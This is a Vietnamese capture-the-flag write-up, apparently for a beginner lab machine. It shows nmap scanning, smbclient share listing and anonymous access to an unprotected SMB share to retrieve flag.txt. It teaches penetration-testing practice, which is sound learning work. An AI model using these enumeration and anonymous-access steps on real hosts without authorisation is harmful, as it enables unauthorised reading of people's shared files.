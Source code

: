 > Có nhiều cách để truyền file từ máy tính này sang máy tính khác trong một network. Trong target này là SMB, được dùng trong Windows.
### 1. Tìm kiếm thông tin target
##### + Khởi động target.
###### IP: 10.129.241.56
##### + Quét cổng và dịch vụ:
` nmap -sV 10.129.241.56 `
##### => 135/tcp msrpc
##### => 139/tcp netbios-san
##### => *445/tcp microsoft-ds?* 
###### 445 là cổng cho SMB (Server Message Block), một protocol chia sẻ file, cho phép ứng dụng trên máy tính (hay người dùng sử dụng ứng dụng đó) đọc, tạo và viết file trên server từ xa. Nó cũng có thể giao tiếp với bất cứ chương trình server nào mà được set up để nhận yêu cầu từ SMB client.
##### + SMB lưu trữ dữ liệu vào nơi được gọi là share, và để xem được thông tin từ share, ta sẽ sử dụng một script tên là smbclient:
##### + Cài đặt smbclient:
` sudo apt-get install smbclient `
###### Để xem thêm cách sử dụng smbclient, gõ lệnh smbclient -h
##### + Xem các file được lưu trữ trong *share*:
` smbclient -L 10.129.241.56 `
###### -L: chọn host để yêu cầu kết nối
```
$smbclient -L 10.129.241.56
Password for [WORKGROUP\hoang]: *Vì đăng nhập ẩn danh nên ấn Enter để bỏ qua*
        sharename      type        comment
        ---------      ----        -------
        ADMIN$         Disk        Remote Admin
        C$             DIsk        Default Admin
        IPC$           IPC         Remote IPC
        WorkShares     Disk
...
```
###### Xem thêm thông tin về các share: https://redcanary.com/threat-detection-report/techniques/windows-admin-shares/
##### + Như vậy có tất cả 4 share, thử kết nối với các share và bỏ qua mật khẩu:
```
$smbclient ////10.129.241.56//ADMIN$ *NT_STATUS_HOST_UNREACHABLE*
$smbclient ////10.129.241.56//C$ *NT_STATUS_HOST_UNREACHABLE*
$smbclient ////10.129.241.56//IPC$ *NT_STATUS_HOST_UNREACHABLE*
$smbclient ////10.129.241.56//WorkShares => Truy cập thành công
```
### 2. Khai thác lỗ hổng
##### + Trong WorkShares:
```
smb: \> ls
  .
  ..
  Amy.J ...
  James.P ...
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .
  ..
  worknotes.txt ...
smb: \Amy.J\> cd..
smb: \> cd James.P
smb: \James.P\> ls
  .
  ..
  flag.txt ...
smb: \James.P\> get flag.txt
smb: \James.P\> exit
```
##### + Trong thu mục máy chủ:
```
ls
cat flag.txt
```
